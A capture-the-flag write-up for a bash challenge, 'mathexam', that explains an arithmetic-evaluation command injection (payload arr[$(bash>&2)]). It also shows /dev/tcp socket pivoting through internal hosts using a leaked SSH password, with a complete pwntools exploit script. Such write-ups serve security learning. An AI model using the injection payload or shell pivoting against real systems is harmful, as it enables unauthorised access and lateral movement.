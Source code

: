 # mathexam

## Overview

mathexam was a 4 part problem focusing on the bash shell. Initially, we
are given a bash shell script implementing a math guessing game. We are
allowed to connect over an HTTP proxy to an instance of the problem
running thie script.

## Part 1

The bash script requires the user to entre an "exam integrity
statement", asks the the user 100 addition questions, checking the
answers, prints a score, then exits.

The bug lies the following code:
```bash
    read line

    if [[ "$line" -eq "$ans" ]]
    then
        ...
    fi
```

While this appears safe at first glance, this actually allows command
injection because bash performs arithmetic evaluation on the arguments
to `-eq`, as described at
https://research.nccgroup.com/2020/05/12/shell-arithmetic-expansion-and-evaluation-abuse/.

Providing `arr[$(bash>&2)]` to that prompt gives us a shell that allows
us to read the first flag.

## Part 2

Looking around the filesystem, we see a file named `.connect.sh.swp`
that contains a reference to the command
`sshpass -p x5kdkwjr8exi2bf70y8g80bggd2nuepf ssh ctf@second`.

From this, we conclude that we need to proxy an SSH connection to
`second` using those credentials via bash.

We did this by opening a socket in bash using:
`exec 5<> /dev/tcp/second/22` then redirecting stdin and stdout to/from
the socket using `cat <&5 & cat >&5`.

Then we used pwntool's `pwnlib.tubes.ssh` to take over our remote connection
and speak SSH to it. This gives us a shell that allows us to read the
second flag.

## Part 3

Part 3 was the same as part 2, except this time, we need to connect to
`ctf@third`. The SSH server on `second` does not allow port forwarding
so we once again use bash as a proxy in the same way.

## Part 4

Part 4 was the same as parts 2 and 3, except that `cat` is no longer
available in this shell. We initially attempted to replicate `cat` using
a bash read loop. However, this appeared to corrupt inputs/outputs
somehow. After debugging this for a bit, we realized that bash's read
builtin is unable to return null bytes. Searching for solutions to this
online, we found
https://unix.stackexchange.com/questions/626641/how-to-read-binary-data-including-zero-bytes-using-bash-builtin-read
and adapted the solution from there (see solution below).

Replacing `cat` with the fixed read loop allows us to SSH to
`ctf@fourth`, which gives us the final flag.

## Solution

```python
#!/usr/bin/env python3
from pwn import *

l = listen()
l.spawn_process('socat - PROXY:instance.0ctf2023.ctf.0ops.sjtu.cn:7et9q47wqqhqqc6b:1,proxyport=18081'.split())

r = remote('localhost', l.lport)

r.recvuntil(b'here:\n')
r.sendline(b'I promise to play fairly and not to cheat. In case of violation, I voluntarily accept punishment')
r.recvuntil(b'?\n')
r.sendline(b'arr[$(bash>&2)]')
r.sendline(b'cat .connect.sh.swp; echo EOF')
swp = r.recvuntil(b'EOF\n', drop=True)

password = swp.split(b' -p ')[1].split()[0].decode()
print(f'{password = }')

r.sendline(b'exec 5<> /dev/tcp/second/22; cat <&5 & cat >&5')

s = ssh(user='ctf', password=password, host='second', proxy_sock=r.sock, raw=True)
r2 = s.shell(tty=False)

r2.sendline(b'exec 5<> /dev/tcp/third/22; cat <&5 & cat >&5')

s2 = ssh(user='ctf', password=password, host='third', proxy_sock=r2.sock, raw=True)
r3 = s2.shell(tty=False)

r3.sendline(b'''
exec 5<> /dev/tcp/fourth/22;
while IFS= LC_ALL=C read -rd '' -n1 c && [[ -z "$c" ]] && printf '\\0' || echo -n "$c"; do true; done <&5 &
while IFS= LC_ALL=C read -rd '' -n1 c && [[ -z "$c" ]] && printf '\\0' || echo -n "$c"; do true; done >&5
'''.strip())

s3 = ssh(user='ctf', password=password, host='fourth', proxy_sock=r3.sock, raw=True)
s3.interactive()
```

